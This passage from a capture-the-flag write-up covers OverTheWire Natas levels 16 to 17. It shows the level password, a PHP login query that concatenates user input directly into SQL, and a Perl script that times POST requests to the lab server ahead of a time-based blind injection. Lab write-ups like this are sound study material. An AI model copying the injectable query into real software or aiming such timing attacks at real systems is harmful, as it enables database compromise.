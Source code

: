 ```perl
```

Alas, the flag is: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

## 17 - Time what is time? - xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

Time for a time based attack! Maybe...

This time there is a sql query, prone to injection, but there is no echo on the screen... so we don't know when we have a match or not - at least not visually!

I noticed that I could perhaps use the `timings` tab of the firefox developer tools to check for variance in time when I have a match (for example, `username=natas17`) and when I do not have a match (say, `username=asdfasdfadsf`).

```perl
#!/usr/bin/perl

use strict;
use warnings;
use v5.10;
use LWP::UserAgent;
use HTTP::Request::Common;
use Benchmark::Timer;

my $url = 'http://natas17.natas.labs.overthewire.org/index.php';
my $ua = LWP::UserAgent->new();

sub make_request {
	my $payload = shift;
	my $request = POST $url, Content => [ username => $payload ];
	$request->authorization_basic('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw');
	my $response = $ua->request($request);
}

 
sub run_bench_for {
	my $payload = shift;
	my $t = Benchmark::Timer->new(skip => 1);
	for(0 .. 20) {
			$t->start($payload);
			make_request($payload);
			$t->stop($payload);
	}
	print $t->report;
}

run_bench_for("natas18");
run_bench_for("asdfasdf");
```
